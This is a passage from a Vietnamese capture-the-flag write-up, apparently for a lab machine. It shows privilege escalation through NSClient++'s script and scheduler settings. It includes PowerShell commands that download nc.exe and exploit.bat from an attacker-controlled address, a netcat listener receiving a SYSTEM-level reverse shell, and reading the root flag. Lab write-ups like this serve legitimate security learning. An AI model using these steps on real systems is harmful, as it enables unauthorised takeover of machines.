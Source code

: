 ![image](https://hackmd.io/_uploads/SJ_0Yeg5C.png)

### Download nc.exe and exploit.bat
Ta sẽ download `nc.exe` `exploit.bat`
```
PS C:\ProgramData> iwr http://10.10.14.93:8888/nc64.exe -Outfile C:\ProgramData\nc.exe
PS C:\ProgramData> iwr http://10.10.14.93:8888/exploit.bat -Outfile C:\ProgramData\exploit.bat

PS C:\ProgramData> dir

    Directory: C:\ProgramData

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/28/2022   5:44 PM                VMware
-a----         8/6/2024  12:19 PM             56 exploit.bat
-a----         8/6/2024  12:25 PM          45272 nc.exe

```

Và ta đã up thành công. Tiếp theo, sẽ thêm một phần mới vào cài đặt 

### Setting Script and Scheduler
![image](https://hackmd.io/_uploads/HyMa5Zl90.png)

"Add" và "Save config". Làm tương tự với Scheduler

![image](https://hackmd.io/_uploads/rJrxoZg90.png)

Sau khi lưu tất cả các thay đổi ta sẽ "Reload".

![image](https://hackmd.io/_uploads/HkOwobe9R.png)

Đợi một lúc và ta sẽ nghe được kết nối
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -nlvp 4433             
listening on [any] 4433 ...
connect to [10.10.14.93] from (UNKNOWN) [10.10.10.184] 52108
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```
## Post-Exploit
```
C:\Program Files\NSClient++>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt    
type root.txt
004fe7a4c0e8d9e4363e0*****
```
